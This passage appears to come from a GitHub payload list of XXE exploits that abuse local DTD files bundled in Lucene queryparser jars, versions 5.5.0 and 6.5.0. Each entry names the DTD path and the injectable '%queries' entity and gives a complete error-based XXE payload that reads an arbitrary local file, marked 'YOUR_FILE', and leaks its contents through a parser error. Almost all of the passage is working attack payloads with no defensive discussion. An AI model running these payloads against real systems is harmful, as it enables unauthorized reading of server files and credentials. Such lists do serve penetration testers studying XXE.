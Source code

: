 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/lucene/lucene-queryparser/5.5.0/lucene-queryparser-5.5.0.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd`

**Injectable entity:** `%queries`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/lucene/lucene-queryparser/5.5.0/lucene-queryparser-5.5.0.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">

    <!ENTITY % queries 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/lucene/lucene-queryparser/6.5.0/lucene-queryparser-6.5.0.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd`

**Injectable entity:** `%queries`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/lucene/lucene-queryparser/6.5.0/lucene-queryparser-6.5.0.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">

    <!ENTITY % queries 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```
